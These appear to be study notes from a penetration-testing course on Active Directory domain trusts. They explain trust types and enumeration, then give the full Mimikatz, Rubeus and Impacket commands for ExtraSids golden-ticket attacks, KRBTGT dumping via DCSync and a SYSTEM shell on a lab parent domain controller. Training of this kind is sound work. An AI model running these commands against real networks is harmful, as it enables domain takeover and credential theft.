 --- ---

Context:
Many large organizations will acquire new companies over time and bring them into the fold. One way this is done for ease of use is to establish a trust relationship with the new domain. In doing so, you can avoid migrating all the established objects, making integration much quicker. This trust can also introduce weaknesses into the customer's environment if they are not careful. A subdomain with an exploitable flaw or vulnerability can provide us with a quick route into the target domain. Companies may also establish trusts with other companies (such as an MSP), a customer, or other business units of the same company (such as a division of the company in another geographical region).

What Are Domain Trusts?
A trust is used to establish forest-forest or domain-domain (intra-domain) authentication, which allows users to access resources in (or perform administrative tasks) another domain, outside of the main domain where their account resides. A trust creates a link between the authentication systems of two domains and may allow either one-way or two-way (bidirectional) communication.

Types of Trust:
	• Parent-child: Two or more domains within the same forest. The child domain has a two-way transitive trust with the parent domain, meaning that users in the child domain corp.inlanefreight.local could authenticate into the parent domain inlanefreight.local, and vice-versa.
	ㅤ
	• Cross-link: A trust between child domains to speed up authentication.
	ㅤ
	• External: A non-transitive trust between two separate domains in separate forests which are not already joined by a forest trust. This type of trust utilizes SID filtering or filters out authentication requests (by SID) not from the trusted domain.
	ㅤ
	• Tree-root: A two-way transitive trust between a forest root domain and a new tree root domain. They are created by design when you set up a new tree root domain within a forest.
	ㅤ
	• Forest: A transitive trust between two forest root domains.
	ㅤ
	• ESAE: A bastion forest used to manage Active Directory. 

Transitive v non-transitive:
	• A transitive trust means that trust is extended to objects that the child domain trusts. For example, let's say we have three domains. In a transitive relationship, if Domain A has a trust with Domain B, and Domain B has a transitive trust with Domain C, then Domain A will automatically trust Domain C.
	ㅤ
	• In a non-transitive trust, the child domain itself is the only one trusted.

![[Pasted image 20230104194405.png]]

Enumerating Trust Relationships w/ Powershell
```
PS C:\htb> Import-Module activedirectory
PS C:\htb> Get-ADTrust -Filter *
```

Enumerating Trust Relationships w/ PowerView
```
PS C:\htb> Get-DomainTrustMapping
```

Checking Users in Child Domain using Get-DomainUser
```
PS C:\htb> Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

Enumerating Trusts with Bloodhound:
![[Pasted image 20230104194527.png]]

---

<h2>Attacking Domain Trusts - [Child -> Parent Trusts] from Windows</h2>

SID History Primer
The sidHistory attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a Golden Ticket or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.



ExtraSids Attack - Mimikatz
This attack allows for the compromise of a parent domain once the child domain has been compromised.

Requirements after compromising child domain:
	• The KRBTGT hash for the child domain
	• The SID for the child domain
	• The name of a target user in the child domain (does not need to exist!)
	• The FQDN of the child domain.
	• The SID of the Enterprise Admins group of the root domain.
	• With this data collected, the attack can be performed with Mimikatz.

Steps:

1. Obtain the KRBTGT Account's NT Hash with Mimikatz
![[Pasted image 20230104194734.png]]

2. Use Get-DomainSID via PowerView to get the SID
![[Pasted image 20230104194755.png]]

3. Obtain Enterprise Admin Group's SID using Get-DomainGroup
```
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

4. Using ls to Confirm No Access (Before Attack)
![[Pasted image 20230104194833.png]]

5. Using the data above, create a golden ticket with Mimikatz
```
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

6. Confirm the ticket is in memory using klist
![[Pasted image 20230104194924.png]]

7. List the Entire C: Drive of the Domain Controller
![[Pasted image 20230104194954.png]]



ExtraSids Attack - Rubeus
We will formulate our Rubeus command using the data we retrieved above. The /rc4 flag is the NT hash for the KRBTGT account. The /sids flag will tell Rubeus to create our Golden Ticket giving us the same rights as members of the Enterprise Admins group in the parent domain.

1. Create the golden ticket with Rubeus
```
PS C:\htb> .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f
/domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

2. Confirm the ticket is in memory with klist
![[Pasted image 20230104195113.png]]

3. Perform a DCSync Attack against the Domain Admin user (lab_adm)
![[Pasted image 20230104195132.png]]

---

<h2>Attacking Domain Trust - [Child -> Parent] Trusts from Linux</h2>

Need to gather the following information:
	• The KRBTGT hash for the child domain
	• The SID for the child domain
	• The name of a target user in the child domain (does not need to exist!)
	• The FQDN of the child domain
	• The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, LOGISTICS.INLANEFREIGHT.LOCAL, we can use secretsdump.py to DCSync and grab the NTLM hash for the KRBTGT account.

Steps:
1. Perform DCSync with secretsdump.py 
```
TeneBrae93@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just- dc-user LOGISTICS/krbtgt
```

2. Perform SID Brute Forcing using lookupsid.py
```
TeneBrae93@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-
student_adm@172.16.5.240 | grep "Domain SID"
```

3. Grab the Domain SID & Attaching to Enterprise Admin's RID
```
TeneBrae93@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

4. Construct a Golden Ticket using ticketer.py
```
TeneBrae93@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain
LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
- The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.

5. Set the KRB5CCNAME Environmental Variable
```
TeneBrae93@htb[/htb]$ export
KRB5CCNAME=hacker.ccache
```

6. Get a SYSTEM Shell Using Impacket's psexec.py
```
TeneBrae93@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```



Automating the Attack with raiseChild.py
```
TeneBrae93@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5
LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
- Though tools such as raiseChild.py can be handy and save us time, it is essential to understand the process and be able to perform the more manual version by gathering all of the required data points. In this case, if the tool fails, we are more likely to understand why and be able to troubleshoot what is missing, which we would not be able to if blindly running this tool.